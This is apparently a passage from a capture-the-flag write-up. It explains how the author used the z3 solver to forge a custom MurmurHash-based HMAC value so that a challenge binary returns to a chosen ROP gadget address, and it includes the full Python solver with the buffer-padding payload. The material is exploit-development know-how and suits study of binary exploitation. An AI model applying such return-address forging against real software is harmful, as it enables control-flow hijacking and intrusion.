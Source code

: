 The result depends mainly on 3 parameters. The result of xoring the input (8 bytes / block), 8 bytes starting from 1496 and last 8 bytes. I named these parameters  **xor**,  **p1**,  **p2** respectively.

To find a wanted input I used  **z3** theorem prover. To make solving easier, I tried to make xoring the input gives 0 and p2 = 0. Now I need to find the values of xor and p1 which give me the desired return address.  

I fixed the desired return address as 0x400e97 which is the address of the first gadget of my rop chain.

Following is the code of my solver:

```python
from z3 import *
import struct

def reg(r):
    return r & 0xffffffffffffffff

def murmur1(rdx, p, rsi):
        CONST = 0x0A165C8277
        rcx = reg(rsi * CONST) ^ rdx
        if rsi > 7 :
                for i in range(rsi/8):
                        rax = reg((rcx + p[i]) * CONST)      
                        rcx = LShR(rax, 0x10) ^ rax
      
        rdx = reg(((  LShR(reg(rcx * CONST), 0xa)) ^ reg(rcx *  CONST)) *  CONST)
        rax = LShR(rdx, 0x11) ^ rdx

        return rax

def hmac(rbx, p1, p2):
        v5 = rbx ^ 0x5C5C5C5C5C5C5C5C  
        p = []
        p.append(v5)
        p.append(p1)
        p.append(p2)
        it1 = murmur1(0xDEFACEDBAADF00D, p, 24)
  
        v5 = rbx ^ 0x3636363636363636  
        p = []
        p.append(v5)
        p.append(it1)
        p.append(p2)
  
        it2 = murmur1(0x0FACEB00CCAFEBABE, p, 16)
        return it2

if __name__ == "__main__":
    payload = "A"*1488+struct.pack("<Q",0x0)*3
    payloadxor = 0
    for i in range(0,1512,8):
                payloadxor ^= struct.unpack("Q", payload[i:i+8])[0]    
    xor = BitVec("xor", 64)
    p1 = BitVec("p1", 64)  
    p2 = BitVec("p2", 64)  
    s = Solver()
    s.add(hmac(xor,p1,0) == 0x400e97)
    status = s.check()
    print s.model()


```
